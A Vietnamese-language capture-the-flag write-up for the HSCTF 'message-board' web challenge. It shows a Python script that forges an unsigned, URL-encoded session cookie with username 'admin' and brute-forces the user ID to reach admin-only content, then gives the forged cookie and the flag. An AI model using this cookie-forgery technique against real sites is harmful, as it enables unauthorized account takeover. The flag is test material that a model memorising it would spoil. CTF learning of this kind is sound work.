



# message-board

## Description

Your employer, LameCompany, has lots of gossip on its company message board: message-board.hsc.tf. You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.

Your login credentials: username: kupatergent password: gandal

Server code is attached (slightly modified).

## Solution

Bài này cho sẵn ta một account , thử login vào xem :



Ok , ta nhận được thông báo "HSCTF: no flag for you". Tất nhiên rồi , tiếp tục xem source code thôi nào!



Dễ thấy có 2 user được config một là user họ cho ta hai là user admin , tiếp tục theo dõi đoạn code sau :



Như vậy để lấy được flag ta cần phải login với user admin , nhưng mà login bằng cách nào ?

Tôi tìm thấy một giá trị cookie như sau :

> userdata : j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D

Decode url ta đc cookie có dạng : {"userID":"972","username":"kupatergent"}

Từ đây có thể thấy để lấy được flag ta cần thay đổi trường user=admin, vấn đề còn lại là ta sẽ đi đoán giá trị cookie của admin (100 > 999) , vậy tôi code một script python để brute force giá trị này .

```
import requests

url = 'https://message-board.hsc.tf/'

for i in range(100,1000):
	y = 'j%3A%7B%22userID%22%3A%22{}%22%2C%22username%22%3A%22admin%22%7D'.format(i)
	cookie = {'userData':y}
	res = requests.get(url, cookies=cookie)
	print('[*] Found ID of admin:',i)
	if 'flag{' in res.text:
		print('ID=',i)
		break
```

Sau khi chạy code tôi thu được ID = 768 , sửa lại cookie và get flag :

> Userdata: j%3A%7B%22userID%22%3A%22768%22%2C%22username%22%3A%22admin%22%7D

## Flag

HSCTF: flag{y4m_y4m_c00k13s}
